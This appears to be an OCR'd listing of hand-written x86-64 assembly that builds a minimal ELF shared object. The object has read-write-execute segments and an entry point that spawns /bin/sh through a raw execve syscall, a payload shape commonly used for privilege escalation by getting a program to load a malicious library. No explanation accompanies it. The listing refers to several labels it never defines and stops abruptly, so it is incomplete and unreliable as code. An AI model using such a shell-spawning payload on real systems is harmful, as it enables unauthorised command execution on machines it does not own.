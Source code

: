 ```
use64
org 0x0
 
ehdr:                             ; Elf64_Ehdr
    db  0x7f, "ELF", 2, 1, 1, 0   ; e_ident
        times 8 db      0
    dw  3                         ; e_type
    dw  0x3e                      ; e_machine
    dd  1                         ; e_version
    dq  _start                    ; e_entry
    dq  phdr - $$                 ; e_phoff
    dq  sectionHeaders - $$       ; e_shoff
    dd  0                         ; e_flags
    dw  ehdrsize                  ; e_ehsize
    dw  phdrsize                  ; e_phentsize
    dw  2                         ; e_phnum
    dw  64                        ; e_shentsize
    dw  6                         ; e_shnum
    dw  4                         ; e_shstrndx
    ehdrsize  = $ - ehdr
 
phdr:           ; Elf64_Phdr
    phdr_loadable:
        dd  1                     ; p_type
        dd  7                     ; p_flags
        dq  0                     ; p_offset
        dq  $$                    ; p_vaddr
        dq  $$                    ; p_paddr
        dq  filesize              ; p_filesz
        dq  filesize              ; p_memsz
        dq  0x1000                ; p_align
phdrsize  = $ - phdr
    phdr_dynamic:
        dd  2                     ; p_type
        dd  7                     ; p_flags
        dq  dynamic               ; p_offset
        dq  dynamic               ; p_vaddr
        dq  dynamic               ; p_paddr
        dq  dynamicsize           ; p_filesz
        dq  dynamicsize           ; p_memsz
        dq  0x1000                ; p_align

; org 0x1000
main:
_start:
    push rax
    push rdx
    push rsi
    push rbx
    xor rax,rax
    xor rdx, rdx
    xor rsi, rsi
    mov rbx,'/bin/sh'
    push rbx
    push rsp
    pop rdi
    mov al, 59
    syscall
    pop rbx
    pop rbx
    pop rsi
    pop rdx
    pop rax
```